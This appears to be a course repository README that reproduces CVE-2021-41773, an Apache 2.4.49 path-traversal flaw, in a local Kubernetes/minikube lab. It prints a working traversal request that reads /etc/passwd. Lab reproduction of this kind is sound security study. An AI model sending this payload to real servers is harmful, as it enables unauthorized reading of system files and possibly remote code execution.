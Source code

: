 # CVE-2021-41773

A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions. The fix in Apache HTTP Server 2.4.50 was found to be incomplete, see CVE-2021-42013.
## PoC 

The PoC from itsecurityco's [PoC repository](https://github.com/itsecurityco/CVE-2021-41773)

## Setup and Demo

The image namzoyatuk/httpd-cve5 built by Dockerfile provided in the [PoC repository](https://github.com/itsecurityco/CVE-2021-41773).

Deployment to Kubernetes can be done by executing below commands:

```
kubectl apply -f deployment.yaml
kubectl apply -f service.yaml
```
We can see the pod and service are up and running
![image](https://github.com/turkbera/Ceng489-Kuberenetes-Attack-Scenarios/assets/54873326/9ba9a4a7-bb56-4ffa-b239-468067655daf)

![image](https://github.com/turkbera/Ceng489-Kuberenetes-Attack-Scenarios/assets/54873326/b4e74c06-b3d3-4362-8c38-fba5575accc1)

The result of the `minikube ip` command:

![image](https://github.com/turkbera/Ceng489-Kuberenetes-Attack-Scenarios/assets/54873326/36af3403-97ca-48fc-9d99-47bcaa9803e3)


In order to exploit the application send following request
```
GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd HTTP/1.1
Host: <minikubeip>:<NodePort>
User-Agent: Mozilla
Connection: close
```


![image](https://github.com/turkbera/Ceng489-Kuberenetes-Attack-Scenarios/assets/54873326/a254ef31-a54f-4805-b5af-6c9326925ed6)


